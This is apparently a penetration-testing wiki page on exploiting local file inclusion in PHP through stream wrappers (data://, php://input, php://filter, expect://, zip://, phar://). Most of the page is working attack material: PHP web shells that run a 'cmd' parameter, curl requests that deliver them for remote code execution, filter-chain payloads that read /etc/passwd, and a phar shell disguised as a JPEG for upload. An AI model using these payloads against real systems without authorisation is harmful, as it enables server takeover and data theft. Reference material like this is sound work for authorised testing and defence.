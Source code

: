 ```yaml
---
authors: LucasParsy, ShutdownRepo
category: web
---
```


# PHP wrappers and streams

::: details data://
The attribute `allow_url_include` must be set. This configuration can be checked in the `php.ini` file.


```bash
# Shell in base64 encoding
echo "<?php system($_GET['cmd']); ?>" | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id"
```

:::


::: details php://input
The attribute `allow_url_include` should be set. This configuration can be checked in the `php.ini` file.


```bash
# Testers should make sure to change the $URL
curl --user-agent "PENTEST" -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```

:::


::: details php://filter
The `filter` wrapper doesn't require the `allow_url_include` to be set. This works on default PHP configuration `allow_url_include=off`.


```bash
# Testers should make sure to change the $URL, $FILTERS with the chaining that generates their payload and $FILE with the path to the file they can read.
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```


The [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) script (Python3) implements the generation of the PHP filters chaining.


```
# Example: generate <?=`$_GET[cmd]`;;?> (base64 value: PD89YCRfR0VUW2NtZF1gOzs/Pg) using /etc/passwd file to run whoami command on the target.

# Generate the payload 
python3 php_filter_chain_generator.py --chain '<?=`$_GET[cmd]`;;?>'

# Fill variables
FILTERS="convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|[...]|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode"
FILE="/etc/passwd"

# Get RCE on the target
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE&cmd=whoami"
```


Finding a valid path to a file on the target is not required. PHP wrappers like `php://temp` can be used instead.

The research article "[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" from Synacktiv, and [the original writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), go into the details of that technique.
:::


::: details expect://
The `expect` wrapper doesn't required the `allow_url_include` configuration, the `expect` extension is required instead.

```bash
curl --user-agent "PENTEST" -s "$URL/?parameter=expect://id"
```
:::


::: details zip://
The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).


```bash
echo "<?php system($_GET['cmd']); ?>" > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" "$URL/?parameter=zip://payload.zip%23payload.php&cmd=id"
```

:::


::: details phar://
The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

The tester need to compile this script into a `.phar` file that when called would write a shell called `shell.txt` .

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now the tester has a `phar` file named `shell.jpg` and he can trigger it through the `phar://` wrapper.


```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```

:::